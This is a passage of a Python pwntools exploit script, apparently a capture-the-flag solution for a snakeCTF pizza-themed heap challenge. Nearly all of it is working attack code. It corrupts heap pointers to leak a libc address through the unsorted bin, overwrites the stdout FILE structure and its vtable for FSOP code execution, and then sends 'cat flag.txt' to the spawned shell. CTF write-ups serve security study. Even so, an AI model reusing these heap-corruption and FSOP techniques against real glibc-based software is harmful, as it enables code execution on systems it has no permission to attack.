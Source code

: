 ```python
        + p16(0)  # price
        + p8(0)  # id
        + p8(0x2)  # is_ready
        + p64(0xFF)  # type
        + p64(  # name_len
            heap_base + 0x390
        )  # overwrite the name ptr to the unsorted bin to leak libc
    )[:-1]

    log.info("overwriting ptr to the unsorted chunk...")

    add_pizza(
        2, 0x20, b"E" * 0x1F, (len(modify_payload) + 1) << 8 | 0x02, 0x10, b"F" * 0xF
    )  # Alloc new chunk to edit a pizza
    modify_pizza(
        2, modify_payload, b"F" * 0xF
    )  # Overwrite the name ptr to the unsorted bin to leak libc

    libc.address = u64(get_leak(1).ljust(8, b"\x00")) - (libc.sym["main_arena"] + 96)
    log.warn(f"libc leak @ {hex(libc.address)}")

    log.info("overwriting stdout to fsrop...")

    modify_payload = (
        b"A" * 24
        + p64(0x31)  # name
        + p32(0)  # pizza chk size
        + p16(0)  # price
        + p8(0)  # id
        + p8(0x2)  # is_ready
        + p64(0xFF)  # type
        + p64(libc.sym["_IO_2_1_stdout_"])  # name_len  # overwrite stdout to fsrop
    )[:-1]

    add_pizza(
        0, 0x10, b"A" * 0xF, (len(modify_payload) + 1) << 8 | 0x02, 0x10, b"B" * 0xF
    )  # Alloc new chunk to edit pizza
    modify_pizza(0, modify_payload, b"B" * 0xF)  # Overwrite stdout to fsrop

    modify_pizza(
        1, fsrop() + b"\n", b"D" * 0x2F, hax=True
    )  # Overwrite stdout vtable to fsrop

    r.clean()
    r.sendline(b"cat flag.txt")
    log.success(r.recvregex(b"snakeCTF{.*}", timeout=5).decode().strip())


if __name__ == "__main__":
    main()

```


